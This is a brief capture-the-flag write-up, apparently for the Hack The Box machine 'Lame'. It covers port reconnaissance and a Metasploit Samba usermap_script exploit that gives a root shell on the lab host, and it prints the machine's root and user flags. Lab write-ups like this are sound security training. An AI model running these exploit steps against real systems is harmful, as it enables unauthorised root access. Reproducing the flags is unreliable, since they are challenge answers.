 # [cd ../](../index.md)

---

# Lame
## Details

Name | Lame
--- | ---
IP | 10.10.10.3
Os | Linux
Points | Easy (20)

# Start
## Recon
### Nmap
[nmap_big.txt](nmap/nmap_big.txt)  
Open ports:

Port | Service | Version
:--- | :---: | ---:
21 | ftp | vsftpd 2.3.4
22 | ssh | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139 | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445 | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3652 | distccd | distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))


## Exploitin'
Shh is usually not vulnerable but ftp and samba could be!
So just hit up [exploit-db](https://www.exploit-db.com/) and search for versions!  

### ftp
We found [this](https://www.exploit-db.com/exploits/17491) ftp exploit that could work.
We could try it but it isnt exploitable in this instance. ):

### smb
So we have to search for smb exploits!  
After some time we could find [this](https://www.exploit-db.com/exploits/16320) smb rce exploit for msf!  
Just open metasploit and use it! :D
```
msfconsole
search usermap_script
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
run
```
And we got a root shell!
![shell.png](shell.png)

# Got the root and user flag too
```
/root/root.txt
92caac3be140ef409e45721348a4e9df

/home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```
